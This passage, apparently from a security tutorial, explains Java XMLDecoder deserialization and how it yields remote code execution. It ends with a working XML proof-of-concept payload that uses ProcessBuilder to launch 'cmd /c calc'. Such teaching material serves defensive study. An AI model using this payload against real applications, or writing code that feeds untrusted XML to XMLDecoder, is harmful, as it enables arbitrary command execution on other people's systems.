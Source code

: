 ```java
        public void setName(String name) {
            this.name = name;
        }
        public int getWidth() {
            return width;
        }
        public void setWidth(int width) {
            this.width = width;
        }
        public int getHeight() {
            return height;
        }
        public void setHeight(int height) {
            this.height = height;
        }    
    }
}
```

The application mainly tries to instantiate the same object class we saw in the previous example, by loading it from an external XML file. Instead of an XML parsing routing, the `readObject()` is called from the `XMLDecoder` class.

As we already know, the general concept behind deserialization is to trick the application into loading arbitrary object, in a way we can use them to execute arbitrary code. So, in this case, how can we exploit this situation to achieve RCE?

The task is simple, we just need to tell the application to load well know classes used by java to interact with the OS, such as `java.lang.Runtime` or `java.lang.ProcessBuilder`. By using this classes, the application would kindly start new processes for us. An example payload would be the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_241" class="java.beans.XMLDecoder">
 <void class="java.lang.ProcessBuilder">
   <array class="java.lang.String" length="3">
          <void index="0">
              <string>cmd</string>
          </void>
          <void index="1">
              <string>/c</string>
          </void>
          <void index="2">
              <string>calc</string>
          </void>
      </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```
